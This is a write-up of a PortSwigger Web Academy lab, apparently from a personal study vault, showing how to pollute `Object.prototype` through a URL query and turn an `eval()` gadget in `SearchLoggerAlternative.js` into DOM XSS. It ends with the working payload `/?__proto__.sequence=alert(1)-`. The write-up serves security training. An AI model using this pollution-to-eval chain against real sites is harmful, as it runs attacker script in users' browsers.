 ```yaml
---
{"dg-publish":true,"permalink":"/port-swigger-web-academy/prototype-pollution/client-side-prototype-pollution/lab-2/"}
---
```



---

## ~={red}Objective: Get DOM XSS=~

### Manual Method

We can notice this time the last query doesn't work, but we can use this

```
/?__proto__.foo=bar
```

Verify it worked

![Pasted image 20250330143553.png](/img/user/Images/Pasted%20image%2020250330143553.png)

Now, we check source to find potential gadgets. It will be noticable in `SearchLoggerAlternative.js` .

```js
async function searchLogger() {
    window.macros = {};
    window.manager = {params: $.parseParams(new URL(location)), macro(property) {
            if (window.macros.hasOwnProperty(property))
                return macros[property]
        }};
    let a = manager.sequence || 1;
    manager.sequence = a + 1;

    eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');

    if(manager.params && manager.params.search) {
        await logQuery('/logger', manager.params);
    }
}
```

We have a Sink because the use of the function `eval()`

```js
eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');
```

We can also find the gadget from this line. `manager.sequence` is not being explicitly defined and is user-controllable input that is passed to `eval()`

```js
let a = manager.sequence || 1;
    manager.sequence = a + 1;
```

Now, we try to pass in the query to exploit

```
?__proto__.sequence=alert(1)
```

But we see that it does not work and returns an error in the console. Click the link at the top to jump to the line where `eval()` is called

![Pasted image 20250330145823.png](/img/user/Images/Pasted%20image%2020250330145823.png)

Put a breakpoint by clicking the line number, then refresh the page

![Pasted image 20250330150125.png](/img/user/Images/Pasted%20image%2020250330150125.png)

If we hover over the gadget reference, we can see that its value is `alert(1)1` .

![Pasted image 20250330150253.png](/img/user/Images/Pasted%20image%2020250330150253.png)

This indicates that our payload worked but because that we polluted `Object.prototype` earlier and because of this block, `sequence` has now inherited `alert(1)` and going down the line, it is concatenated by `1` , making the value of `sequence` property = `alert(1)1`

```js
let a = manager.sequence || 1;
    manager.sequence = a + 1;
```

To fix this syntax we can append `-` to our exploit

```
/?__proto__.sequence=alert(1)-
```

![Pasted image 20250330151502.png](/img/user/Images/Pasted%20image%2020250330151502.png)

